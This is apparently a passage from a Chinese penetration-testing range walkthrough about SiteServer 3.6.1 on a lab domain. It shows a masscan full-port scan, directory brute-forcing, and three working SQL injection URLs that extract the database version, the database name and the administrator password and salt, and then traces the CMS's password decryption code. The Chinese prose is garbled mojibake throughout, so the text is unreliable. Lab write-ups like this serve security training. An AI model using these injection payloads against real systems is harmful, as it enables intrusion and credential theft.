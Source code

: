 

2ãmasscan  
sudo masscan -p 1-65535 192.168.202.183 --rate=1000  
å¸¸ç¨åæ°ï¼  
-p <ports,--ports <ports>> æå®ç«¯å£è¿è¡æ«æ  
\--banners è·åbannerä¿¡æ¯ï¼æ¯æå°éçåè®®  
\--rate <packets-per-second> æå®åå çéçï¼é»è®¤çéçæ¯100å
/ç§  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_J7N44XAK423U7XZ.png)



ç»å®ååï¼åå¯¹å ¶www.moonlab.comè¿è¡ç®å½çç ´ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_GSX7X5T5Y7TN5KT.png)  
å¦æç¨kalièªå¸¦çdirbusterå·¥å ·ä¼å ä¸ºUAåéåº¦ç­é®é¢è¢«æ¦æªï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_4V9EFGY9HNGHPVW.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_DRDANTVV9HH26AT.png)  
æä»¥æä»¬å¯ä»¥èªå·±ç¼åèæ¬è¿è¡ç®å½ççç
´ï¼æ¯é´é0.5ç§è¿è¡è¯·æ±æä½ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_Q3XK7E8Q3N3BPBB.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_U2P2S62W76GU3WV.png)

## [](https://bbs.pediy.com/thread-268289.htm)7.2 webæ¼æ´

è®¿é®ç½åå¯ç¥ï¼è¿æ¯siteserver3.6.1ï¼ä»ç½ä¸æ¾å°è¯¥çæ¬æ¥éæ³¨å
¥çç¸å ³pocï¼è·å¾æ°æ®åºçæ¬ä¿¡æ¯ï¼  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=2;%20--  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_J8X63NY89QUWHT3.png)  
è·å¾æ°æ®åºåï¼  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20db_name()=~2;%20--  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_QQKFE4WA9T532DC.png)  
æ ¹æ®æ¥è¯¢æ°æ®åºè¯­å¥ç¸ç»§è·åå°åå°çç¨æ·åãå¯ç
åsaltå¼ï¼  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(SELECT%20TOP%201%20[Password]%20FROM%20[bairong_Administrator]);%20--  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_EE9SMBR8FHGK85V.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_BMSANUAUQGEGMPP.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_TRZ3N6V227PGMR8.png)



ç¶åæä»¬æ ¹æ®ç½ä¸æä¸è½½çåçåæåºå ¶ç»å½æ¶çå¯ç å
å¯æµç¨ï¼  
å çFrameworkLoginç±»çSubmit_Onclick()æ¹æ³ï¼æµç¨å¾ç®åå
å¤æ­éªè¯ç ï¼ç¶åæç¨æ·ååå¯ç ä¼ å ¥AdminManager.Authticateï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ES9S4JTAVG687Q5.png)  
ç»§ç»­è·å
¥AdminManager.Authticateï¼è°ç¨äºAdministratorDAO.ValidateUser()éªè¯ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_X3Z3CHQHXZKGGGG.png)  
ç»§ç»­è·å ¥AdministratorDAO.ValidateUser()çå®ç°ï¼å½æ°å æ
¹æ®ç¨æ·åæ¾å°ç¨æ·çä¿¡æ¯ï¼æ ¹æ®æ°æ®åºä¸­ç¨æ·çå¯ç ä¸è¾å
¥çå¯ç è°ç¨checkpassword()å½æ°è¿è¡æ¯å¯¹ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_EW6JKUN8JFDZDH8.png)  
ææ°æ®åºä¸­çå¯ç åsaltä¼ å ¥DecodePassword()è¿è¡ç¸åºçè§£å¯ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_6FV53TPPVM5C2BW.png)  